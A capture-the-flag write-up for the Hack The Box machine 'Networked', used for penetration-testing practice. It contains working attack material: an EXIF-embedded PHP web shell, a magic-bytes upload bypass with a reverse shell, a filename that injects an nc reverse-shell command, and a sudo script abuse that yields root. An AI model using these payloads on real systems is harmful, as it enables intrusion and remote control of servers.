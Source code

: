 ```yaml
---
layout: writeup
title: Networked
description: HTB writeup
logo: /assets/img/writeups/networked_logo.png
show-avatar: false
permalink: /writeups/networked.html
OS: Linux
difficulty: Easy
release: 24 Aug 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/8292">guly</a>
cleared: 1 Nov 2019
published: 2019 11 01
redirect_from: /walkthroughs/htb-networked.html
---
```


<h2 align="center">Enumeration</h2>
Starting with standard nmap scan...

```s
# Nmap 7.80 scan initiated Thu Oct 31 14:15:09 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.098s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 14:18:04 2019 -- 1 IP address (1 host up) scanned in 175.03 seconds

```

Seeing port 80, we navigate to the webpage and see nothing of interest, however checking the page source shows us an interesting comment

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

So we know there is more to find. However we should be directory busting anyway, so this doesn't offer much.

Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.146
```

with the appropriate wordlist yielded the following results

```sh
/uploads (Status: 301)
/photos.php (Status: 200)
/index.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```

If we navigate to /backup we see

![backup](/assets/img/writeups/networked_backup_page.png)

Downloading and extracting the tar file we find its the source files for the .php pages we found. 


![Source](/assets/img/writeups/networked_source_files.png)

Analyzing the upload.php and lib.php files we see that there is some extension checking in place, as well as a mimetype check. These are in place to attempt to only allow us to upload an image file. There are two ways I found to bypass this.


<h3 align="center">Initial foothold</h3>
**Method 1:**



We can modify the exif data of an image to give us code execution using **exiftool** as follows

```sh
exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" hilbert.jpg 

```

then we rename the image file to hilbert.php.jpg and upload it and navigate to the image and check if we have code execution

![RCE](/assets/img/writeups/networked_exifdata_torce.png)

Bingo! We can now use wget to download a shell file to the server and then navigate to it to get a reverse shell.

**Method 2:**

This method is much easier. We simply take our favorite php reverse shell (I'm using one from pentestmonkey) and append 'magicbytes' to the start of the file. This makes the mimetype check php is using think it is an image file. 

![magicbytes](/assets/img/writeups/networked_magicbytes.png)

Again we rename the file with the extension .php.jpg and upload it. Then set up a netcat listener on whatever port you edited into the reverse shell, and navigate to the image file

![reverseurl](/assets/img/writeups/networked_reverse_url.png)

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 47636
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:52:12 up  3:22,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache

```



<h3 align="center">Privilage Escalation</h3>
We have a shell but we are only user apache. Looking at the /etc/passwd file we see there is user named "guly". If we look in /home/guly we see two interesting files. 'crontab.guly' and 'check_attack.php'. Looking at the files we see that crontab.guly is set to run check_attack.php every 3 minutes. If we look at check_attack.php

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```



We see that it basically looks at all the files in the uploads folder that we previously placed our disguised image file in, and deletes files that don't belong. If we look closely at the code, this line in particular stands out

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

The value variable holds the name of a file and we can name it in such a way to execute code!

As user apache we have write access in that directory, so all we need to do is go to the directory and create the appropriate named file.

```sh
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ touch ";nc 10.10.14.3 1235 -c bash"

```

Then we simply have to listen on the appropriate port and wait for the program to run and then...

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 57202
whoami
guly

```

Bingo! We can now cat the user.txt file.

<h3 align="center">On To Root</h3>
Running "sudo -l" we see

```sh
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

So we can run this changename.sh file as root without a password.

A bit of googling turns up this vulnerability

https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

which tells us that due to some improper handling anything after an inputted space for the name field when running the script will be executed. So we can simply enter "bash" after the space like so

```sh
[guly@networked sbin]$ sudo ./changename.sh
interface NAME:
hilbert bash
interface PROXY_METHOD:
blah
interface BROWSER_ONLY:
blah
interface BOOTPROTO:
blah 
[root@networked network-scripts]# whoami
root

```

We now have access to the root flag.
